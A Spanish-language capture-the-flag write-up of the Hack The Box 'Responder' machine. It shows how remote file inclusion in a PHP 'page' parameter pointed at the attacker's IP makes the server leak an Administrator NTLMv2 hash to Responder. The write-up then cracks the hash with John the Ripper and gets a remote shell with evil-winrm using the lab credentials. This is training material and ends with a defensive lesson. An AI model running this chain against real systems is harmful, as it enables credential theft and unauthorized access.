--------
- Tags:  #WinRM #CustomApplications #protocols #XAMPP #SMB #Responder #php #Reconnaisance #passwordcracking #hashcapture #remotefileinclusion #remotecodeexecution
--------------





### 🔍 Reconocimiento inicial

Se nos solicita acceder al servicio web asociado a la IP, pero al acceder a `http://unika.htb` obtenemos un error de "servidor no encontrado". Esto indica que la resolución DNS no está funcionando para ese nombre.




📌 **Solución**: Agregar la IP y el nombre `unika.htb` en el archivo `/etc/hosts`:



Al recargar la página en el navegador, se muestra la web correctamente.


### 🌐 Navegación web

Accediendo a `http://unika.htb`, vemos una web de diseño. Al inspeccionar los enlaces, detectamos que en la URL aparece el parámetro `?page=`. Por ejemplo:

```bash
http://unika.htb/index.php?page=german.html
```

📌 Esto indica que el lenguaje de backend es **PHP**, y el parámetro **`page`** podría ser vulnerable a LFI o RFI.






Nos preguntan cual es la utilidad especial para ver las interfaces en el paquete "Responder":



### 🧰 Responder y captura de hashes

Se nos pide usar **Responder** para capturar hashes de autenticación.  

Responder se ejecuta con la interfaz de red especificada:

```bash
responder -I (interfaz)
```



📌 Verificamos que están activos servicios como SMB, HTTP, DNS, FTP, entre otros.

### 🧩 LFI + RFI para capturar el hash NTLM

Modificamos la URL del parámetro `page` para que acceda a un recurso remoto en nuestra máquina (con Responder activo):

```bash
http://unika.htb/index.php?page=//tu_IP/somefile
```



Esto fuerza al servidor a intentar autenticarse, permitiendo que **Responder capture el hash NTLMv2** del usuario `Administrator`.


En donde también nos preguntan qué significa **NTLM**:
Se trata del sistema de autenticación utilizado por Windows. 



Llegando al final de la máquina, nos preguntan sobre el programa de crackear contraseñas "John the Ripper"



Usamos John para probar millones de contraseñas contra el hash capturado desde Responder, y así descubrir la contraseña real.

Bien. Con responder:





En Responder IP. Cogeremos esa IP y la pondremos en el navegador /somefile tal que así:



Y veremos que se nos ha creado un hash en el Responder:



Este codigo / hash (desde Administrator, absolutamente todo) , lo copiaremos, y creamos un documento "hash.txt"



Esta contraseña es la que nos devuelve John tras crackear el hash con el siguiente comando:

```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



Resultado:




## 🖥️ Conexión remota con Evil-WinRM

Una vez tenemos la contraseña, nos conectamos con `evil-winrm`:

```bash
sudo evil-winrm -u Administrator -p badminton -i 10.129.95.234
```



Accedemos a una shell remota del sistema Windows objetivo.

*Añadimos el perfil / usuario "-u" con la contraseña "-p" y la "-i" IP



- `evil-winrm` utiliza por defecto el puerto **TCP 5985**, correspondiente a **WinRM sobre HTTP**.
    
- Si fuese conexión segura (**HTTPS**), usaría el puerto **5986**, pero no se indica ningún protocolo especial, así que asumimos el puerto **estándar (5985)**.

## 📁 Exploración del sistema y obtención de la flag

Una vez dentro, navegamos por los directorios hasta encontrar la flag del usuario `mike`.



Y finalmente:



Hasta encontrar nuestra querida flag !! =D

## ✅ Conclusión final

- Se detecta un sitio web en `unika.htb` vulnerable a **Remote File Inclusion (RFI)** a través del parámetro `?page=`.
    
- Aprovechando esta vulnerabilidad, se fuerza al servidor a conectarse a un recurso remoto falso utilizando **Responder**, capturando un **hash NTLMv2** del usuario `Administrator`.
    
- El hash NTLMv2 se **crackea exitosamente con John The Ripper**, revelando la contraseña `badminton`.
    
- Con estas credenciales, se realiza una conexión remota vía **evil-winrm**, accediendo como **Administrator**.
    
- Finalmente, se navega por el sistema de archivos hasta localizar y leer el archivo `flag.txt`.
    

---

🧠 **Lección aprendida:**  
Este laboratorio demuestra cómo una vulnerabilidad web mal gestionada (como RFI) puede escalar rápidamente hasta comprometer por completo un sistema Windows. La combinación de errores de desarrollo y servicios internos expuestos permite a un atacante capturar credenciales, descifrarlas y obtener acceso total. Es crucial validar los parámetros en las URLs y evitar incluir archivos remotos sin controles estrictos.


